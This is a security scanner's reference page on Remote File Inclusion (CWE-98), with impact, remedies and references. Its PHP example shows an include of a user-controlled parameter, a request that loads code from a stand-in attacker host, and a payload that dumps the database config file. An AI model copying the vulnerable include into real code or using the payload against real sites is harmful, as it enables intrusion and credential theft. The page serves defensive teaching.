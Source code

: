 # Remote File Inclusion (RFI)

<b>Severity</b>: <b><font color="#DB1E54">High</font></b><br>
<b>Test name</b>: Remote File Inclusion (RFI)

<table id="simple-table">
    <tr>
        <th><strong>Summary</strong></th>
    </tr>
</table>
Remote File Inclusion is an attack applicable to web applications that dynamically include external files or scripts. When such web applications take user input (URL, parameter value, etc.) and pass them into file include commands, the web application might be tricked into including remote files with malicious code. As a result, the malicious code can be downloaded and executed on the server with the privileges of the current web server user.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Impact</strong></th>
    </tr>
</table>

This vulnerability allows an attacker to:
* Execute an unauthorized code on the server side application
* Execute an unauthorized code on the client side application
* Gain sensitive information
* Crash the server

<p>

<table id="simple-table">
    <tr>
        <th><strong>Basic example of Remote File Inclusion (PHP)</strong></th>
    </tr>
</table>

1. Server side code:
```js
    <?php
    $file = 'form.php';
    if (isset($_REQUEST['file'])) {
        $file = $_REQUEST['file'];
    }
    include $file;
    ```
2. Request:
    ```
    https://your_web_site/preview.php?file=http://dangerous_web_site.com/malicious_code.php
    ```
3. Content of <i>"malicious_code.php"</i>
```js
<?php var_dump(include('../config/db.php'));
```
4. As a result, the attacker can steal the configuration of the database. 

<p>

<table id="simple-table">
    <tr>
        <th><strong>Location</strong></th>
    </tr>
</table>

* The issue can be found in the <b>source code</b> on the <b>server side</b>.
* The issue can be found in the <b>source code</b> on the <b>client side</b>.</li>

<p>

<table id="simple-table">
    <tr>
        <th><strong>Remedy suggestions</strong></th>
    </tr>
</table>

* The most effective solution is to avoid passing user-submitted input to any file system / framework API.
* If you have a limited number of the allowed files to include, all of them can be stored as corresponding records in long time storage (for example, database) with specific identifiers. Such identifiers can be used as the request parameters to identify and include only allowed files.
* If it is not possible to list the allowed files, and user input cannot be avoided, ensure that the supplied values are valid. Sanitize the input by creating a list of trusted files. Use the “whitelist” approach.

<p>

<table id="simple-table">
    <tr>
        <th><strong>Classifications</strong></th>
    </tr>
</table>

* CWE-98
* CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:L/A:L

<p>

<table id="simple-table">
    <tr>
        <th><strong>References</strong></th>
    </tr>
</table>

* [https://cwe.mitre.org/data/definitions/98.html](https://cwe.mitre.org/data/definitions/98.html)
* [http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion](http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion)
* [https://en.wikipedia.org/wiki/File_inclusion_vulnerability](https://en.wikipedia.org/wiki/File_inclusion_vulnerability)